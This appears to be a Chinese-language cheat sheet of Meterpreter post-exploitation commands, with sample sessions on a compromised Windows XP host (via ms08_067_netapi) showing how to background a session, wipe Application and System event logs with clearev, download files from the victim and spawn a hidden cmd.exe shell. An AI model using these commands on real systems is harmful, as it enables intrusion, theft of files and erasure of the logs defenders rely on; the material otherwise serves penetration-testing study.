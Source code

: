 ##### HELP

显示帮助

##### BACKGROUND

将当前 Meterpreter 会话转到后台，返回一个 msf 控制台。

要返回 Meterpreter 会话，使用 sessions 命令即可。

```
meterpreter > background
msf exploit(ms08_067_netapi) > sessions -i 1
[*] Starting interaction with 1...

meterpreter >
```

##### CLEAREV

用于清除Windows系统中的应用、系统、安全等方面的日志信息。

```
meterpreter > clearev
[*] Wiping 97 records from Application...
[*] Wiping 415 records from System...
[*] Wiping 0 records from Security...
meterpreter >
```

##### DOWNLOAD

从远程主机下载一个文件。注意在windows中使用两个斜杠。

```
meterpreter > download c:\\boot.ini
[*] downloading: c:\boot.ini -> c:\boot.ini
[*] downloaded : c:\boot.ini -> c:\boot.ini/boot.ini
meterpreter >
```

##### EDIT

用于编辑一个文件

##### EXECUTE

执行一个windows命令

```shell
meterpreter > execute -f cmd.exe -i -H
Process 38320 created.
Channel 1 created.
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>
```
